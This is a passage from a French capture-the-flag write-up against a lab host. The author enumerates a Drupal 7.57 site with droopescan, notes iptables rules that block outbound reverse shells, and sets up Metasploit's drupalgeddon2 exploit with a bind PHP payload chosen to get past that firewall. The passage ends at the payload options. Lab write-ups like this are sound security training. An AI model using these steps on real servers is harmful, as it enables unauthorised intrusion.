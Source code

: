 ```console
150 Opening BINARY mode data connection for firewall.sh (190 bytes).
100% |*********************************************************************************************************************************************************************|   190       86.02 KiB/s    00:00 ETA
226 Transfer complete.
190 bytes received in 00:00 (68.82 KiB/s)
```

Je ne suis pas expert `iptables` (loin de là) mais je dirais que ça va nous bloquer les reverse-shell (nouvelles connexions sortantes) :

```bash
#!/bin/bash
#FIREWALL
iptables -A OUTPUT -o eth0 -p tcp --tcp-flags ALL SYN -m state --state NEW -j DROP
ip6tables -A OUTPUT -o eth0 -p tcp --tcp-flags ALL SYN -m state --state NEW -j DROP
```

Il n'est possible d'écrire dans aucun des dossiers que l'on a croisés.

Sur le port 8000 je trouve un Drupal. J'ai utilisé `droopescan` qui n'a pas remonté grand-chose d'intéressant :

```console
$ docker run --rm droope/droopescan scan drupal -u http://192.168.56.186:8000/ --enumerate a
[+] Plugins found:                                                              
    profile http://192.168.56.186:8000/modules/profile/
    php http://192.168.56.186:8000/modules/php/
    image http://192.168.56.186:8000/modules/image/

[+] Themes found:
    seven http://192.168.56.186:8000/themes/seven/
    garland http://192.168.56.186:8000/themes/garland/

[+] Possible version(s):
    7.57

[+] Possible interesting urls found:
    Default changelog file - http://192.168.56.186:8000/CHANGELOG.txt
```

Je m'en suis remis à Metasploit et son module d'exploitation `drupalgeddon2`. Il fallait prendre soin à prendre un payload adapté aux règles du parefeu :

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.56.186   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8000             yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/bind_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
```